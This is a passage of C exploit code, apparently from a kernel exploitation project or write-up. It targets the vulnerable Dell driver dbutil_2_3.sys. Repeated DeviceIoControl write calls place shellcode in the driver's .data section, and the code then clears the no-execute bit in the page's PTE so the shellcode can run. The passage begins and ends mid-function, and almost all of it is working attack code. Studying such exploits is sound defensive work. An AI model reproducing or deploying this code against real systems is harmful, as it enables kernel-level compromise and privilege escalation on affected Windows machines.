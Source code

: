 ```c
				BOOL interact7 = DeviceIoControl(
					driverHandle,
					IOCTL_WRITE_CODE,
					&inBuf8,
					sizeof(inBuf8),
					&inBuf8,
					sizeof(inBuf8),
					&bytesReturned8,
					NULL
				);

				BOOL interact8 = DeviceIoControl(
					driverHandle,
					IOCTL_WRITE_CODE,
					&inBuf9,
					sizeof(inBuf9),
					&inBuf9,
					sizeof(inBuf9),
					&bytesReturned9,
					NULL
				);

				BOOL interact9 = DeviceIoControl(
					driverHandle,
					IOCTL_WRITE_CODE,
					&inBuf10,
					sizeof(inBuf10),
					&inBuf10,
					sizeof(inBuf10),
					&bytesReturned10,
					NULL
				);

				BOOL interact10 = DeviceIoControl(
					driverHandle,
					IOCTL_WRITE_CODE,
					&inBuf11,
					sizeof(inBuf11),
					&inBuf11,
					sizeof(inBuf11),
					&bytesReturned11,
					NULL
				);

				// A lot of error handling
				if (!interact2 || !interact3 || !interact4 || !interact5 || !interact6 || !interact7 || !interact8 || !interact9 || !interact10)
				{
					printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
					exit(-1);
				}
				else
				{
					printf("[+] Successfully wrote the shellcode to the .data section of dbutil_2_3.sys at address: 0x%llx\n", shellcodeLocation);

					// Clear the no-eXecute bit
					unsigned long long taintedPte = pteBits & 0x0FFFFFFFFFFFFFFF;

					printf("[+] Corrupted PTE bits for the shellcode page: %p\n", taintedPte);

					// Clear the no-eXecute bit in the actual PTE
```